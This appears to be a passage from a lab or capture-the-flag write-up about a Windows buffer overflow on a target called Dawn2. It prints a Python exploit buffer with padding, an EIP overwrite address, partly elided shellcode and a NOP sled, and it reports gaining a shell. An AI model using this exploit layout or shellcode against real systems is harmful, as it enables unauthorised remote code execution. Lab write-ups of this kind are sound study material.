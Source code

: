 Nice and finally after figuring out the appropriate padding and inserting a windows payload for the poc.

```
        CRASH = b"\x41" * 272
        EIP = b"\xBA\x64\x59\x34"
        SHELL =  b""
        SHELL += b"\xb8\xa1\x78\x37\xe4\xda\xce\xd9\x74\x24\xf4\x5a"
...
        SHELL += b"\xd3\xf9\x97\x84\xd6\x46\x10\x75\xab\xd7\xf5\x79"
        SHELL += b"\x18\xd7\xdf"
        NOPS = b"\x90" * 20
        FILLER = b"\x43" * (474 - (len(SHELL) + len(NOPS)))
        TERMINATE = b"\x00"
        buffer = CRASH + EIP + NOPS + SHELL + FILLER + TERMINATE
```


![](https://raw.githubusercontent.com/TrshPnda/trshpnda.github.io/master/images/Dawn2-noSEHwindowspoc.gif)

We get a shell on our windows box.
